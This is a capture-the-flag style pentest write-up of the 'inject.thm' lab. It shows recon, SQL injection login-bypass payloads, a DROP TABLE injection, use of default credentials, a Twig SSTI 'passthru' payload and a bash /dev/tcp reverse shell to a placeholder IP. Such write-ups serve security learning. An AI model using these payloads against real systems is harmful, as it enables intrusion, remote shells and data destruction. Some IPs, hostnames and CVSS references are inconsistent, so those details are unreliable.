


# Security Testing Report: Web Application Assessment on **inject.thm**
---

## Assessment Information

| Field                 | Details                      |
| --------------------- | ---------------------------- |
| Assessed Domain       | inject.thm                   |
| Target IP             | 10.10.10.198                 |
| DNS Resolution Method | Added to `/etc/hosts`        |
| Assessor Name         | Mian Al Ruhanyat             |
| Assessment Start Date | 2025-02-19                   |
| Assessment End Date   | 2025-02-25                   |
| Assessment Type       | Web Application Pentest      |
| Tools Used            | Nmap, Feroxbuster, Burpsuite |
| Scope Type            | Web (External)               |
| Operating System      | Linux (Debian)               |

# Security Testing Using Manual Testing and Automation Tools
----
In this assessment, a combination of manual and automated techniques was employed to identify vulnerabilities in the target environment.  
Manual testing was conducted using well-known testing approaches based on the OWASP Top 10, while automation tools were leveraged to improve coverage and efficiency.  
The goal was to simulate real-world attacks, validate findings, and ensure comprehensive security evaluation of the target system.

## DNS Mapping 

```sh
echo "10.10.10.198 inject.thm" | sudo tee -a /etc/hosts

```
**Pinging to inject.thm:**

```sh
ping inject.thm

PING inject.com (10.10.10.198) 56(84) bytes of data.
64 bytes from inject.thm (<ip>): icmp_seq=1 ttl=63 time=277 ms
```

- The IP has been added , Now If I type inject.thm to my browser it should go the IP where the web server is.


## Initial Foot Print

- Now I will search for services and Open ports for the web server and other loop holes to break in


**Command:**
```sh
sudo nmap -sC -sV  inject.thm -oN initial_all_ports -T5
```

**Result:**
```Result
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-17 18:29 PST  
Nmap scan report for inject.thm (10.10.28.179)  
Host is up (0.17s latency).  
Not shown: 998 closed tcp ports (reset)  
PORT   STATE SERVICE VERSION  
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol  
2.0)  
| ssh-hostkey:    
|   3072 a5:c6:1e:e3:db:61:ee:5d:7d:d6:7b:b6:12:ca:53:ea (RSA)  
|   256 3b:85:4f:b6:8e:a0:8a:f5:14:19:a3:20:f1:30:13:75 (ECDSA)  
|_  256 64:55:f6:6a:f7:ac:91:e1:55:4c:44:1f:14:ce:b4:0a (ED25519)  
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))  
| http-cookie-flags:    
|   /:    
|     PHPSESSID:    
|_      httponly flag not set  
|_http-title: Injectics Leaderboard  
|_http-server-header: Apache/2.4.41 (Ubuntu)  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  
  
Service detection performed. Please report any incorrect results at https://n  
map.org/submit/ .  
Nmap done: 1 IP address (1 host up) scanned in 23.03 seconds

```

- Here we can see the port 80 is running an http server, it means its a website
- Lets find more urls or pages of this website 

## Directory Enumeration
 Here we will find the directories of the website using feroxbuster tool, you can have the privilege to use many tools like gobuster , dirbuster , dirb, dirsearch, or even my [Reconscope](https://github.com/Ruhanyat-994/Reconscope) script to find these things at once.


**Command:**

```sh
feroxbuster -u 'http://inject.thm/' -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o directory.txt -n -x php,json,js,pdf
```
- We Will search pages related to php, json ,js and pdf extension
- My intension is to find vulnerabilities belongs to version and OWASP TOP 10 

**Result:**
```sh
200      GET      206l      428w     6588c http://inject.thm/index.php
200      GET        7l      683w    60044c http://inject.thm/js/bootstrap.min.js
200      GET        2l     1062w    72380c http://inject.thm/js/slim.min.js
200      GET      161l      368w     5401c http://inject.thm/login.php
200      GET        6l      263w    18362c http://inject.thm/js/popper.min.js
200      GET       35l       88w     1088c http://inject.thm/script.js
200      GET      160l      353w     5353c http://inject.thm/adminLogin007.php
200      GET        7l     2103w   160302c http://inject.thm/css/bootstrap.min.css
200      GET      206l      428w     6588c http://inject.thm/
301      GET        9l       28w      308c http://inject.thm/flags => http://inject.thm/flags/
301      GET        9l       28w      306c http://inject.thm/css => http://inject.thm/css/
301      GET        9l       28w      305c http://inject.thm/js => http://inject.thm/js/
301      GET        9l       28w      313c http://inject.thm/javascript => http://inject.thm/javascript/
302      GET        0l        0w        0c http://inject.thm/logout.php => index.php
301      GET        9l       28w      309c http://inject.thm/vendor => http://inject.thm/vendor/
302      GET        0l        0w        0c http://inject.thm/dashboard.php => dashboard.php
200      GET        0l        0w        0c http://inject.thm/functions.php
301      GET        9l       28w      313c http://inject.thm/phpmyadmin => http://inject.thm/phpmyadmin/
200      GET        5l        7w       48c http://inject.thm/composer.json

```

```sh
http://inject.thm/index.php
http://inject.thm/js/bootstrap.min.js
http://inject.thm/js/slim.min.js
http://inject.thm/login.php
http://inject.thm/js/popper.min.js
http://inject.thm/script.js
http://inject.thm/adminLogin007.php
http://inject.thm/css/bootstrap.min.css
http://inject.thm/
http://inject.thm/flags
http://inject.thm/css
http://inject.thm/js
http://inject.thm/javascript
http://inject.thm/logout.php
http://inject.thm/vendor
http://inject.thm/dashboard.php
http://inject.thm/functions.php
http://inject.thm/phpmyadmin
http://inject.thm/composer.json
```

-  These are the urls that I got but It consists 301 response as well 
- Lets Try the phpmyadmin page because its quite unnatural to find because its normally stay behind the 403 response.


- Here I tried some negative testing by throwing incorrect name and password and It gave me the database name which is mysql in the error message so its a very verbose error message and should not be in that way


## Information Gathering From Website

- There were some links but they were redirecting to the index page
- And also a login page name of `login.php`


- And at the front page there is a very interesting data 


-  `Mails are stored in mail.log file` and the site has been developed by  John Tim - dev@injectics.thm


| Email                    | Password             |
| ------------------------ | -------------------- |
| superadmin@injectics.thm | superSecurePasswd101 |
| dev@injectics.thm        | devPasswd123         |

- Here I found that The default credentials for logging but the developer is telling to update it on the database

- The login page presented two distinct endpoints: one for **user login** and another for **administrator login**.

- Initial attempts using commonly known or guessed credentials were unsuccessful.

- Upon revisiting the provided hint, a message was observed: _"Here are the default credentials that will be added:"_. This suggests that the application was intended to be initialized with default credentials.

- It is likely that the developer failed to properly populate the database with these credentials during deployment.

- Through the accessible **phpMyAdmin** interface, it was confirmed that the backend is using a **MySQL** database.

- Further analysis was conducted on both the user and admin login functionalities to identify potential misconfigurations or vulnerabilities.

### Analyzing Login Page for the User


- Here for capturing the request and response message I Tested with some Incorrect Username and Password which is a part of Negative Testing
- For Capturing I am Using Burpsuite.

```request
POST /functions.php HTTP/1.1
Host: inject.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 46
Origin: http://inject.thm
Connection: close
Referer: http://inject.thm/login.php
Cookie: PHPSESSID=87jdgjj68n1ljj8s32n7qaht65
Priority: u=0

username=user&password=password&function=login

```

- This is the request Message I captured
- Here I will try the sql injection vulnerability to check if it is possible to exfiltrate data from the mysql database


- I crafted the request on burpsuite and check with `' OR 1=1--`  which is a basic sql injection testing command 
- Its giving me an error so I had to craft the payload so that I can Bypass its SQL Command filtering mechanism via username and password parameter
- For bypassing Filter I tried `url encoding mechanism ` :
	-   `%27%20OR%201%3D1--`   ( `' OR 1=1--` )
	- `1%27%20||%201=1%20--+` ( `1' OR 1=1` )

- And by this I got the SQL Injection Injection Vulnerability using The 2nd Encoded payload



#### What this means?

- Actually here I bypassed the need of password in the login functionality and It redirected me directly to the dashboard with the redirection link `dashboard.php?isadmin=false`


- At the admin login page I tried the same thing but its only works for the user login.
- In the dashboard we can see the edit option , If we click the button it redirected us to another page where we can edit the medal entry for each country.


- If we change any data and updated it its successfully being updated 
- Again I tried the SQL Injection Vulnerability here.

#### Trying Sql Injection Again 

-  We have seen that the database is not updated so lets try to update that database using the `Edit Leaderboard Entry` as it is storing the changes on the DB


- I tried This command `; DROP TABLE users; -- -` to update the database table 


- And its perfectly got updated

### Admin Login Page Analysis

- As the database was waiting for someone to update it that we got from the mail log
- It should Now work with the default password that We got
- I tried it with the Admin login page because we can easily bypass the user login so I tried here


- And using those credentials we have successfully logged in as admin .


- After login to anything I always try to find functionalities of that particular web app
- And there I got another functionality which is profile 
- I tried Some SQLI there as well but didn't manage to exploit it.
- Then I again went to my gathered information on the initial test which I always do

#### Searching Directory

- When gathering information about the directories I missed a directory which is `http://inject.thm/composer.json`


- The JSON you're looking at is from the `composer.json` file, which is used in PHP projects to manage dependencies. Here's what the relevant part means:
	-  `require`: Lists the packages the project depends on.
    - `"twig/twig": "2.14.0"`: This project is using **Twig**, version **2.14.0**, as a dependency

- Twig is a **templating engine for PHP**, developed by SensioLabs (the same people behind Symfony). It's used to separate the logic from the presentation layer — kind of like Jinja2 for Python or EJS for Node.js.

#### SSTI (Server-Side Template Injection) Relevance:

Since the site uses Twig for rendering templates, **SSTI might be possible** if:

- User input is directly embedded into templates without sanitization.
    
- You can control or influence template syntax in rendered output.


### Using SSTI to get Remote Code Execution (RCE)

**RCE (Remote Code Execution)** allows an attacker to run commands on a server remotely. If a web app uses a vulnerable template engine like **Twig** and injects user input directly into templates, it can lead to **SSTI**, which may be escalated to RCE—giving the attacker full control over the server.

#### Getting SSTI
- I tried  SSTI (Server Side Template Injection) here at the admin profile function


- As the first name is shown in the title so we need to use some payloads to the first name to see the response in the browser


- If I try this payload it should show me 49 as response


- And we have successfully exploited the ssti vulnerability here


- Let Try to gain a reverse shell through command 

#### Getting RCE 


- After some research about twig I found some interesting payloads at [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/PHP.md#twig)



- For using system command I have to use `{{['id',""]|sort('passthru')}}`


- And We successfully injected arbitrary system code


### Crafting Reverse Shell

- We are going to use  a reverse shell here

```sh
bash -c 'exec bash -i >& /dev/tcp/Your_ip/8888 0>&1
```

```sh
{{['bash -c 'exec bash -i >& /dev/tcp/Your_ip/8888 0>&1',""]|sort('passthru')}}
```

- Lets start the listener

```sh
$ nc -lvnp 8888
listening on [any] 8888 ...

```

- Now we will inject the shell


- We have successfully get the reverse shell .


# Vulnerability Analysis and CVSS Scores
---

| **Vulnerability**                         | **Description**                                                                                                       | **CVSS v3.1 Score** | **Severity** | **Reference**                                                                                                                                                                                     |
| ----------------------------------------- | --------------------------------------------------------------------------------------------------------------------- | ------------------- | ------------ | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Server-Side Template Injection (SSTI)** | Twig template engine vulnerability allowing execution of arbitrary system commands via unsanitized user input.        | 5.4                 | Medium       | [NVD - CVE-2019-10909](https://nvd.nist.gov/vuln/detail/CVE-2019-10909)                                                                                                                           |
| **Remote Code Execution (RCE) via SSTI**  | Exploitation of Twig's SSTI to achieve remote code execution, leading to full system compromise.                      | 9.1                 | Critical     | [GitHub Advisory](https://github.com/cachethq/cachet/security/advisories/GHSA-hv79-p62r-wg3p)                                                                                                     |
| **SQL Injection (SQLi)**                  | Injection of malicious SQL statements through unsanitized input fields, allowing unauthorized access to the database. | 9.8                 | Critical     | [OWASP SQLi Guide](https://owasp.org/www-community/attacks/SQL_Injection)                                                                                                                         |
| **Verbose Error Messages**                | Display of detailed error messages revealing sensitive information, aiding attackers in crafting targeted exploits.   | 5.3                 | Medium       | [OWASP Error Handling](https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/07-Input_Validation_Testing/18-Testing_for_Server_Side_Template_Injection) |
| **Exposed phpMyAdmin Interface**          | Unrestricted access to phpMyAdmin, potentially allowing attackers to manipulate the database directly.                | 6.5                 | Medium       | [phpMyAdmin Security](https://www.phpmyadmin.net/security/)                                                                                                                                       |
| **Use of Default Credentials**            | Presence of default or easily guessable credentials, facilitating unauthorized access.                                | 9.8                 | Critical     | [OWASP Authentication Cheat Sheet](https://owasp.org/www-project-cheat-sheets/cheatsheets/Authentication_Cheat_Sheet.html)                                                                        |
- The **CVSS v3.1 scores** are based on standard metrics; however, actual impact may vary depending on the specific context and environment.​[GitHub](https://github.com/aquasecurity/trivy/discussions/655?utm_source=chatgpt.com)
    
- The **Remote Code Execution via SSTI** is particularly severe as it allows attackers to execute arbitrary commands on the server, leading to full system compromise.​
    
- The **SQL Injection** vulnerability is critical, enabling attackers to access, modify, or delete data within the database without proper authorization.​
    
- **Verbose Error Messages** can inadvertently leak information about the application's structure or database, assisting attackers in identifying potential weaknesses.​
    
- An **Exposed phpMyAdmin Interface** without proper access controls can be a significant security risk, as it provides a graphical interface to the database.​
    
- The use of **Default Credentials** is a common oversight that can be easily exploited by attackers to gain unauthorized access.